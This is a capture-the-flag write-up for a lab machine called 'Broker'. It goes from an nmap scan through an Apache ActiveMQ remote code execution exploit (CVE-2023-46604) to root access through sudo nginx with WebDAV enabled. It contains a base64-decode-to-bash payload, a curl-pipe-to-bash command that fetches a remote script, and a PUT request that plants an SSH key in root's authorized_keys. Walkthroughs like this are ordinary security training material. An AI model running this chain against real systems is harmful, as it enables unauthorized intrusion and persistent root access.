




# Broker

## Machine Info


## Recon

### port

```console
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp    open  http       nginx 1.18.0 (Ubuntu)
|_http-title: Error 401 Unauthorized
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
1883/tcp  open  mqtt
| mqtt-subscribe:
|   Topics and their most recent payloads:
|     ActiveMQ/Advisory/Consumer/Topic/#:
|_    ActiveMQ/Advisory/MasterBroker:
5672/tcp  open  amqp?
|_amqp-info: ERROR: AQMP:handshake expected header (1) frame, but was 65
| fingerprint-strings:
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, GetRequest, HTTPOptions, RPCCheck, RTSPRequest, SSLSessionReq, TerminalServerCookie:
|     AMQP
|     AMQP
|     amqp:decode-error
|_    7Connection from client using unsupported AMQP attempted
8161/tcp  open  http       Jetty 9.4.39.v20210325
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
|_http-server-header: Jetty(9.4.39.v20210325)
|_http-title: Error 401 Unauthorized
34291/tcp open  tcpwrapped
61613/tcp open  stomp      Apache ActiveMQ
| fingerprint-strings:
|   HELP4STOMP:
|     ERROR
|     content-type:text/plain
|     message:Unknown STOMP action: HELP
|     org.apache.activemq.transport.stomp.ProtocolException: Unknown STOMP action: HELP
|     org.apache.activemq.transport.stomp.ProtocolConverter.onStompCommand(ProtocolConverter.java:258)
|     org.apache.activemq.transport.stomp.StompTransportFilter.onCommand(StompTransportFilter.java:85)
|     org.apache.activemq.transport.TransportSupport.doConsume(TransportSupport.java:83)
|     org.apache.activemq.transport.tcp.TcpTransport.doRun(TcpTransport.java:233)
|     org.apache.activemq.transport.tcp.TcpTransport.run(TcpTransport.java:215)
|_    java.lang.Thread.run(Thread.java:750)
61614/tcp open  http       Jetty 9.4.39.v20210325
| http-methods:
|_  Potentially risky methods: TRACE
|_http-title: Site doesn't have a title.
|_http-server-header: Jetty(9.4.39.v20210325)
61616/tcp open  apachemq   ActiveMQ OpenWire transport
| fingerprint-strings:
|   NULL:
|     ActiveMQ
|     TcpNoDelayEnabled
|     SizePrefixDisabled
|     CacheSize
|     ProviderName
|     ActiveMQ
|     StackTraceEnabled
|     PlatformDetails
|     Java
|     CacheEnabled
|     TightEncodingEnabled
|     MaxFrameSize
|     MaxInactivityDuration
|     MaxInactivityDurationInitalDelay
|     ProviderVersion
|_    5.15.15
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 - 5.8 (96%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.5 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### web

default credential: `admin:admin`



### ActiveMQ

**ActiveMQ**: Version 5.15.15

**Exploit Search**: CVE-2023-46604

## Foothold

### ActiveMQ 5.15.15 RCE

Exploit code: [here](https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell)

1. Payload1: msfvenom





2. Payload2: poc-linux.xml `echo xxx | base64 -d | bash`

## Privilege Escalation

### enum

sudo



nginx conf: dav enabled

```console
activemq@broker:~$ sudo nginx -V
sudo nginx -V
nginx version: nginx/1.18.0 (Ubuntu)
built with OpenSSL 3.0.2 15 Mar 2022
TLS SNI support enabled
configure arguments: --with-cc-opt='-g -O2 -ffile-prefix-map=/build/nginx-zctdR4/nginx-1.18.0=. -flto=auto -ffat-lto-objects -flto=auto -ffat-lto-objects -fstack-protector-strong -Wformat -Werror=format-security -fPIC -Wdate-time -D_FORTIFY_SOURCE=2' --with-ld-opt='-Wl,-Bsymbolic-functions -flto=auto -ffat-lto-objects -flto=auto -Wl,-z,relro -Wl,-z,now -fPIC' --prefix=/usr/share/nginx --conf-path=/etc/nginx/nginx.conf --http-log-path=/var/log/nginx/access.log --error-log-path=/var/log/nginx/error.log --lock-path=/var/lock/nginx.lock --pid-path=/run/nginx.pid --modules-path=/usr/lib/nginx/modules --http-client-body-temp-path=/var/lib/nginx/body --http-fastcgi-temp-path=/var/lib/nginx/fastcgi --http-proxy-temp-path=/var/lib/nginx/proxy --http-scgi-temp-path=/var/lib/nginx/scgi --http-uwsgi-temp-path=/var/lib/nginx/uwsgi --with-compat --with-debug --with-pcre-jit --with-http_ssl_module --with-http_stub_status_module --with-http_realip_module --with-http_auth_request_module --with-http_v2_module --with-http_dav_module --with-http_slice_module --with-threads --add-dynamic-module=/build/nginx-zctdR4/nginx-1.18.0/debian/modules/http-geoip2 --with-http_gzip_static_module --without-http_browser_module --without-http_geo_module --without-http_limit_req_module --without-http_limit_conn_module --without-http_memcached_module --without-http_referer_module --without-http_split_clients_module --without-http_userid_module
```

### nginx to host a sever

[zhsh9/sudo_nginx (github.com)](https://github.com/zhsh9/sudo_nginx)

```console
$ curl http://<IP>/nginx_root.sh | bash

--------------------------------------------------------------------------------
└─╼$ curl http://10.10.11.243:8080/root/root.txt
8c7e82954c3553b9f9f4dea468a7f1ba

└─╼$ curl -X PUT http://10.10.11.243:8080/root/.ssh/authorized_keys -d "$(cat ~/.ssh/id_ed25519.pub)"

└─╼$ ssh root@$IP
The authenticity of host '10.10.11.243 (10.10.11.243)' can't be established.
ED25519 key fingerprint is SHA256:TgNhCKF6jUX7MG8TC01/MUj/+u0EBasUVsdSQMHdyfY.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.243' (ED25519) to the list of known hosts.
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-88-generic x86_64)
...
root@broker:~# id
uid=0(root) gid=0(root) groups=0(root)
```

## Exploit Chain

port scan -> ActiveMQ 5.15.15 RCE -> activemq shell -> sudo -l: nginx -> zhsh9/sudo_nginx script -> start a server -> PUT request to upload authorized_keys -> root shell
